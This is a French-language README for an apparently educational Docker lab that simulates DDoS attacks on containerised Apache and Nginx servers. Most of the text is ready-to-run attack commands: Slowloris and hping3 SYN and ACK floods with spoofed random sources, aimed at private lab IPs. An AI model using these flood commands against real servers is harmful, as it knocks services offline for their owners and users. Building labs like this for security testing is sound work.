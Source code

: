 # DDoS Attack Simulation Tool

Ce projet met à disposition une collection d'outils performants de simuler des attaques DDoS sur des serveurs Apache et Nginx. 
Ces outils s'avèrent précieux pour les tests et l'évaluation de la sécurité des infrastructures web.

## Prérequis

- Docker et Docker Compose doivent être installés sur votre machine.

## Utilisation

1. Construction et exécution des conteneurs

```bash
docker-compose -f stack.yml up -d --build

# build images and run containers

```bash
docker-compose -f stack.yml up -d --build
```

2. Attaques HTTP Flood

- Attaque Slowloris contre le serveur Apache

```bash
docker exec -ti attacker-DDOS /bin/bash -c "slowloris 172.20.0.2 -s 1000"
```

- Attaque Slowloris contre le serveur Nginx

```bash
docker exec -ti attacker-DDOS /bin/bash -c "slowloris 172.20.0.3 -s 1000"
```

3. Attaques SYN Flood

- Attaque SYN Flood contre le serveur Apache

```bash
docker exec -ti attacker-DDOS /bin/bash -c "hping3 -S -c 100000 -d 1000 -p 80 --flood  --rand-source 172.20.0.2"
```

- Attaque SYN Flood contre le serveur Nginx
```bash
docker exec -ti attacker-DDOS /bin/bash -c "hping3 -S -c 100000 -d 1000 -p 80 --flood  --rand-source 172.20.0.3"
```

4. Attaques ACK Flood

- Attaque ACK Flood contre le serveur Apache
```bash
docker exec -ti attacker-DDOS /bin/bash -c "hping3 -A -c 100000 -d 1000 -p 80 --flood  --rand-source 172.20.0.2"
```

- Attaque ACK Flood contre le serveur Nginx
```bash
docker exec -ti attacker-DDOS /bin/bash -c "hping3 -A -c 100000 -d 1000 -p 80 --flood  --rand-source 172.20.0.3"
```

5. Arrêt et suppression des conteneurs
```bash
docker-compose -f stack.yml down
```

## Avertissement
Ce projet est uniquement destiné à des fins éducatives et de test. L'utilisation de ces outils contre des systèmes sans autorisation est illégale.

## Auteur
Ahmat Mahamat Ahmat

Email : ahmatmhtlouky@gmail.com

## Licence

Ce projet est sous licence MIT. Voir le fichier LICENSE pour plus de détails.
 
